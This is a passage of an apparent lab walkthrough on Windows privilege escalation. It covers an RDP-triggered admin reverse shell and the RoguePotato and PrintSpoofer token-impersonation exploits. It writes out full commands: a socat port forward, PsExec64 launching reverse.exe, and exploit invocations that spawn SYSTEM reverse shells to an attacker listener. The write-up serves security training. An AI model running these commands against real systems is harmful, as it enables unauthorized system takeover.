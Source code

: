 Start a listener on Kali, and then simulate an admin logon using RDP and the credentials you previously extracted:

```bash
root@gr4n173:~$ rdesktop -u admin 10.10.8.98
```

A shell running as admin should connect back to your listener.

## 7.Token Impersonation
### Rogue Potato
 Here we abused `SeImpersonate` or `SeAssignPrimaryToken` privileges to get execution as SYSTEM using `roguePotato` exploit. 
 When we require more than 2 shell of windows in different port then we can use `RoguePotato` exploit.
 
 At first we have to port forward in kali which can be done using `socat`.
 ```bash
 root@gr4n173:~$ sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.8.98:9999
 ```
 `PsExec.exe`helps to execute the process remotely. Now in order to run `PSExec.exe`we require `administrator` privilege. So we can click on run->as administrator while opening cmd. Then only we can run the below command.
Using `PSExec64.exe` to trigger the reverse.exe executable with the permissions of the "local service" account:
 ```bash
 C:\gr4n173>C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
 ```
 Now again starting new listner on kali.
 
 Then, in the "local service" reverse shell you triggered, run the RoguePotato exploit to trigger a second reverse shell running with SYSTEM privileges:
 ```bash
 C:\gr4n173> C:\gr4n173\RoguePotato.exe -r 10.10.10.10 -e "C:\gr4n173\reverse.exe" -l 9999
 ```
 > **For more info:** [0xdf blog](https://0xdf.gitlab.io/2020/09/08/roguepotato-on-remote.html)
 
 
### PrintSpoofer
Here we use `PrintSpoofer` exploit to trigger a second shell as same in `RoguePotato` exploit.
1. Setting permissions of the "local serivce" account same as in above.
2. Now running the `PrintSpoofer` exploit as
```bash
C:\gr4n173>C:\gr4n173\PrintSpoofer.exe -c "C:\gr4n173\reverse.exe" -i
```
This way we get the reverse shell with SYSTEM privileges.

> **Resources:** Several tools have been written which help find potential privilege escalations on Windows. Among of them are writeen below.
> 1. [winPEASany.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/README.md)
> 2. [Seatbelt.exe](https://github.com/GhostPack/Seatbelt)
> 3. [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
> 4. [SharpUp.exe](https://github.com/GhostPack/SharpUp).
> **For more Windows Escalation Technique:**
>1. [payloadsallthings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
>2. [guif.re](https://guif.re/windowseop).
>3. [Script_and_payloads_by_Nishang](https://github.com/samratashok/nishang)


